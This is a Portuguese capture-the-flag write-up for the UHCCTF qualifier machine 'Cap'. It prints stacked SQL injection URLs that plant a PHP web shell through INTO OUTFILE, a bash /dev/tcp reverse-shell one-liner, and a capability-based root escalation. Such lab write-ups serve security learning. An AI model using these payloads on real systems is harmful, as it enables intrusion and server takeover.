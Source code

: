 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Cap"
tags: pt-br ctf write-up
---
```


Essa máquina foi feita pelo Kadu para a classificatória do UHCv35.

# Recon

Iniciando o desafio e pegando a url podemos observar que ele tem uma página um tanto quanto estranha, parece ser uma API, já que retorna um objeto JSON:

![/assets/cap/Untitled.png](/assets/cap/Untitled.png)

Vamos então partir direto para o fuzzing, vou rodar a wordlist common.txt e a quiclhits.txt:

common.txt:

![/assets/cap/Untitled%201.png](/assets/cap/Untitled%201.png)

quickhits.txt:

![/assets/cap/Untitled%202.png](/assets/cap/Untitled%202.png)

Achamos um arquivo de backup! Vou baixar e abrir no visual studio code.

![/assets/cap/Untitled%203.png](/assets/cap/Untitled%203.png)

Hora de debugar!

Esse código basicamente é uma tentativa de um tipo de API para interagir com algum tipo de banco de dados, ele pega informações de databases e é capaz de inserir informações também, podemos perceber que ele usa um micro framework chamado Slim. ([https://www.slimframework.com/docs/v2/](https://www.slimframework.com/docs/v2/))

Essa parte envolve muito code review, que é inclusive o nome do challenge da primeira flag. Fui testando tudo e lendo os erros (debug mode estava ativo).

Dando uma lida e debugando um pouco podemos perceber que existe uma rota dessa api que faz uma consulta no banco de dados na tabela usuarios.

Rota:

```bash
https://cap.uhclabs.com/_ul/uploads/0
```

Código:

![/assets/cap/Untitled%204.png](/assets/cap/Untitled%204.png)

Basicamente aonde está escrito :controller é aonde vamos inserir o nome do arquivo que contém a classe que vamos usar, no caso vamos ussar o usuarios.class.php, e :parametrer sera o $data que será passado na query da consulta como podemos ver aqui:

![/assets/cap/Untitled%205.png](/assets/cap/Untitled%205.png)

Agora vamos rodar:

Testei alguns ids e no 2 temos a primeira flag hehe:

![/assets/cap/Untitled%206.png](/assets/cap/Untitled%206.png)

Certo, como podemos perceber no código, nossos parâmetros não passam por nenhum tipo de tratamento, obviamente o site está vulnerável a Sql injection.

![/assets/cap/Untitled%207.png](/assets/cap/Untitled%207.png)

Então vamos ver o que podemos fazer aqui.

# Exploitation 
## Sql Injection

Podemos observar que o banco de dados usado é o MariaDB.

Vamos começar tentando mandar querys para a aplicação.

Para demonstrar o que está acontecendo irei mostrar as payloads e como a query está sendo executada no site.

- A primeira coisa que irei fazer vai ser tentar adicionar um usuário, ja que temos o código sabemos o nome da tabela...

```bash
cap.uhclabs.com/_ul/usuarios/1;insert%20into%20usuarios%20(nome)%20values%20('big0us')
```

Com um Url encode na nossa payload se enviarmos, a query ficará assim:

```sql
SELECT * from usuarios where id=1; insert into usuarios (nome) values ('big0us');
```

Enviando mais algumas vezes podemos ver que nosso usuário já está no banco de dados com a seguinte rota:

```
cap.uhclabs.com/_ul/usuarios/0
```

- No MariaDB existe um comando que possibilita salvar o resultado da query em um arquivo...
- Lendo o código fonte, podemos abrir arquivos que estiverem no /classes/ apenas enviando um request POST, com o nome do arquivo sem o .classes e sem o .php...

![/assets/cap/Untitled%208.png](/assets/cap/Untitled%208.png)

- Se pudermos salvar arquivos de consultas de querys em qualquer diretório e podemos escrever e rodar arquivos no servidor, temos tudo para conseguir um RCE. Mas como?
- (Existem várias formas de fazer isso vou descrever como eu fiz)
- Já que posso criar um usuário, vou criar um usuário contendo um código php no nome, assim quando eu jogar isso para dentro de um arquivo, será executado... Então vamos as payloads:

URL:

```
cap.uhclabs.com/_ul/usuarios/1;1%3Bselect%20into%20usuarios%20%28nome%29%20values%20%28%27%3C%3Fphp%20system%28%24%5FGET%5B0%5D%3F%3E%27%29%29
```

Query:

```sql
select into usuarios (nome) values ('<?php system($_GET[0]?>'))
```

E agora com o usuário criado, vamos fazer uma consulta que retorne o nome do usuário, e salvar isso em um arquivo... (dei o nome de "u")

URL:

```
cap.uhclabs.com/_ul/usuarios/1%3Bselect%20%2A%20from%20usuarios%20into%20outfile%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fu%2Eclass%2Ephp%27
```

Query: 

```sql
select * from usuarios into outfile '/var/www/html/classes/u.class.php'
```

Agora que já montamos nosso arquivo malicioso vamos ao request:

![/assets/cap/Untitled%209.png](/assets/cap/Untitled%209.png)

Agora que temos RCE vamos pegar uma shell.

# Pós exploitation 
## Root Capability

Utilizei uma payload simples encodada em url encode:

```bash
bash -c "bash -i >& /dev/tcp/ip/porta 0>&1"
```

![/assets/cap/Untitled%2010.png](/assets/cap/Untitled%2010.png)

```
Full tty shell
in your shell~ python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
in your terminal~ stty raw -echo; fg
ENTER
in your shell~ export TERM=xterm
```

Indo até o / podemos encontrar nossa flag!

![/assets/cap/Untitled%2011.png](/assets/cap/Untitled%2011.png)

Rodando alguns comandos de enumeração logo pude encontrar qual é a vulnerabilidade do priv esc (o linpeas teria achado), o comando que eu rodei para encontra-la é o getcap, que mostra para nós os capabilities que os binários do linux possuem.

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![/assets/cap/Untitled%2012.png](/assets/cap/Untitled%2012.png)

Podemos ver que o python está com um capability chamado sys_admin, dando uma olhada no hacktricks sobre como explorar isso, podemos ver que existe uma forma de sobrescrevermos o arquivo /etc/passwd adicionando uma senha que nós sabemos para o usuário root.

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin)

![/assets/cap/Untitled%2013.png](/assets/cap/Untitled%2013.png)

Exploitation:

![/assets/cap/Untitled%2014.png](/assets/cap/Untitled%2014.png)

![/assets/cap/Untitled%2015.png](/assets/cap/Untitled%2015.png)

![/assets/cap/Untitled%2016.png](/assets/cap/Untitled%2016.png)

![/assets/cap/Untitled%2017.png](/assets/cap/Untitled%2017.png)

Depois de rodar o exploit damos um:

![/assets/cap/Untitled%2018.png](/assets/cap/Untitled%2018.png)

E ai está nossa flag, parabéns kadu pela máquina e obrigado a você que leu até aqui!